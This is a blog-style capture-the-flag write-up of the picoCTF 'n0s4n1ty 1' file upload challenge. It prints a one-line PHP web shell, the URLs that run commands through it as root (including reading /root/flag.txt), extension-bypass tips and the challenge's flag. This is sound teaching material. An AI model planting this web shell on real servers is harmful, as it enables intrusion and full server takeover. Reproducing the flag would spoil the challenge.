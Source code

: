 ```yaml
---
layout: post
title: n0s4n1ty 1
date: 13-05-2025
categories: [PicoCTF]
tag: [Easy CTF]
---
```


Welcome to DarkR7 blogs.....

# Heading

```shell
I am DarkR7...
```

# n0s4n1ty 1 CTF: File Upload Vulnerability Writeup

## 📌 Challenge Description

> The challenge presents a **file upload vulnerability** on a web application. Our goal is to exploit this vulnerability to gain access to sensitive data or execute arbitrary code on the server to retrieve the flag.

> Link: http://standard-pizzas.picoctf.net:54419/

## 🧠 Understanding the Challenge

This challenge revolves around an insecure file upload feature that allows an attacker to upload any type of file. The goal is to upload a PHP file and use it to execute commands on the server.

## 🛠️ Step-by-Step Solution

### 1. Open the Website

The website provides a file upload form that accepts all file types — including `.php`.

![Initial Site](images/2nd1.png)


![Initial Site](images/2nd2.png)

### 2. Create a Malicious PHP File

We create a simple PHP web shell that takes a command from a GET parameter and executes it.

```php
<?php
    echo shell_exec($_GET['cmd']);
?>
```

Upload this file using the site’s upload feature.

![Uploading PHP](images/2nd5.png)

### 3. Locate the Uploaded File

After uploading, we try accessing the uploaded file in a predictable upload folder like:

```
http://standard-pizzas.picoctf.net:54419/upload.php
```

We can now append commands to the URL using the `cmd` parameter, for example:

```
http://standard-pizzas.picoctf.net:54419/uploads/malicious.php?cmd=whoami
```


![Test Command Execution](images/2nd6.png)


When we enter: 

```
http://standard-pizzas.picoctf.net:54419/uploads/malicious.php?cmd=sudo -l
```

![Test Command Execution](images/2nd7.png)



This will tell us that we can run any command with any account....


Let's try as root:

To get root we need to redirect to thhis url

```
http://standard-pizzas.picoctf.net:54419/uploads/malicious.php?cmd=sudo ls /root
```

This will list all files in root..


**Here we found flag.txt in root folder...**
 

### 4. Find the Flag

Once we confirm that our PHP shell is working, we can try reading the flag file.

Try the following in your browser:

```
http://standard-pizzas.picoctf.net:54419/uploads/malicious.php?cmd=sudo cat /root/flag.txt
```

If the file exists and permissions are open, this will output the flag.

![Flag Found](images/2nd9.png)

### 5. Flag Retrieved

Success! We see the flag printed on the page.

![Final Flag](images/2nd9.png)

## 🏁 Flag

```
picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}
```

## 📚 Concepts Learned

- Exploiting file upload vulnerabilities
- Bypassing file type restrictions
- Command execution through PHP
- Locating and reading sensitive files on a web server

## ✅ Tips

- Always check file type validation on upload forms
- Try uploading `.php`, `.php5`, or `.phtml` extensions
- Use predictable paths to locate uploaded files
- Append `?cmd=COMMAND` if your payload uses GET-based command injection

{% raw %}
**Payload:** `<?php echo shell_exec($_GET['cmd']); ?>`
{% endraw %}
